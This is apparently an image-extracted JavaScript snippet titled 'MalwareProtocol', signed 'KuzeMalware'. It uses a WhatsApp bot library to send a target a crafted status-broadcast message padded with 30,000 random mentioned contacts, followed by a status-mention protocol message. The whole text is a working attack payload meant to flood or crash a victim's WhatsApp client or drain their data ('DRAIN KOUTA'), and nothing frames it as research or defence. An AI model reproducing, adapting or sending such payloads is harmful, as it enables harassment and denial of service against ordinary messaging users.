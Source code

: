 async function MalwareProtocol(targetJids, mention = true) {
  const msg = generateWAMessageFromContent(
    targetJids,
    {
      viewOnceMessage: {
        message: {
          listResponseMessage: {
            title: "ⱮąӀաąɾҽ Ͳҽąʍ",
            listType: 2,
            buttonText: null,
            sections: null,
            singleSelectReply: null,
            contextInfo: {
              mentionedJid: Array.from({ length: 30000 }, () =>
                "1" + Math.floor(Math.random() * 500000) + "@s.whatsapp.net"
              ),
              participant: undefined,
              remoteJid: "status@broadcast",
              forwardingScore: 9741,
              isForwarded: true,
              forwardedNewsletterMessageInfo: {
                newsletterJid: null,
                serverMessageId: 1,
                newsletterName: null
              }
            }
          }
        }
      }
    },
    {
      contextInfo: {
        channelMessage: true,
        statusAttributionType: 2
      }
    }
  );

  await sock.relayMessage("status@broadcast", msg.message, {
    messageId: msg.key.id,
    statusJidList: [targetJids],
    additionalNodes: [
      {
        tag: "meta",
        attrs: {},
        content: [
          {
            tag: "mentioned_users",
            attrs: {},
            content: [
              {
                tag: "to",
                attrs: { jid: targetJids },
                content: undefined
              }
            ]
          }
        ]
      }
    ]
  });

  if (mention) {
    await sock.relayMessage(
      targetJids,
      {
        statusMentionMessage: {
          message: {
            protocolMessage: {
              key: msg.key,
              type: 25
            }
          }
        }
      },
      {
        additionalNodes: [
          {
            tag: "meta",
            attrs: { is_status_mention: "true" },
            content: undefined
          }
        ]
      }
    );
  }
}
FUNCTION PROTOCOL NAME + DRAIN KOUTA
© KuzeMalware
